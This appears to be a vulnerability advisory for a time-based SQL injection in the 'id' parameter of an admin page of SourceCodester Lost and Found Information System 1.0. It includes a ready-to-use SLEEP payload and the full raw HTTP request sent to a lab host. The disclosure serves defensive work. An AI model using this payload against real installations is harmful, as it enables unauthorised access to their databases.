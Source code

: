 # SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER inquiries/view_inquiry ID SQL INJECTION

## Vendor Homepage:
https://www.sourcecodester.com

## Software Link:
LOST AND FOUND INFORMATION SYSTEM
https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html

## Tested On:
Window 11, XAMPP

## Affected Page:
php-lfis/admin/?page=inquiries/view_inquiry&id=

## Description:
A vulnerability SQL injection was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

## Proof of Concept:
### 1. Visit page: /php-lfis/admin/?page=inquiries/view_inquiry&id=1
### 2. Intercept request and inject payload sql query in param 'id' to sleep 5 second: 
```
'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str
```
![image](https://github.com/nguyendinhmanh1111/CVE2023/assets/76999751/f960b8ed-1046-424f-9a6a-2c4c77183eaa)
####Request:
```
GET /php-lfis/admin/?page=inquiries/view_inquiry&id=1'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str HTTP/1.1
Host: 192.168.0.106
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/php-lfis/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0bb98mm26ain42g80sto1khd1r
Connection: close˛
```
